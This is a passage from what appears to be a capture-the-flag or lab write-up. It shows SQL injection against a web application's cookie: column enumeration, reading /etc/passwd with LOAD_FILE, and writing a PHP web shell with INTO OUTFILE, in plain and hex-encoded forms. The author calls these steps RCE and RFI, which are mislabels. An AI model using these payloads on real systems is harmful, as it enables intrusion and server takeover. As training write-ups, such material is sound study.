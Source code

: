 with directory traversdal I also got a page called `config.php` file but cant access the php file so lets see this page behavior with burpsuite →

![Untitled](Untitled%201.png)

Tempering with cookies id I got a sql injection indication like this →

![Untitled](Untitled%202.png)

with <mark style="background: #ADCCFFA6;">sqli</mark> lets see how many column its database has →

```sql
1' UNION SELECT 1,2--+
#OR
1' ORDER BY 1,2--+
#OR
1' ORDER BY 2--+
```
{: .nolineno}
{: .nolineno}

![Untitled](Untitled%203.png)

Trying anything else give me this error →

![Untitled](Untitled%204.png)

That is why I got confirmed that this database have 2 columns so lets try <mark style="background: #CACFD9A6;">RCE</mark> on this column with this command →

```sql
' UNION SELECT 1,LOAD_FILE("/etc/passwd") -- -
```
{: .nolineno}
{: .nolineno}

![Untitled](Untitled%205.png)

I tried to read the `config.php` file that I got from directory traversal so lets see →

![Untitled](Untitled%206.png)

This time lets try to do RFI (Remote File Inclusion) like this →

```sql
' UNION SELECT 1,<?php system($_GET['cmd']); ?> INTO OUTFILE '/var/www/html/shell.php' -- -
# '' OR WE CAN HEX ENCODE THE PAYLOAD FOR EXECUTION ALTERNATIVE WAY LIKE THIS ⤵️ 

'UNION SELECT 1,0x3C3F7068702073797374656D28245F524551554553545B27636D64275D293B203F3E INTO OUTFILE '/var/www/html/shell2.php'-- -
```
{: .nolineno}
{: .nolineno}

with first method I got this error →
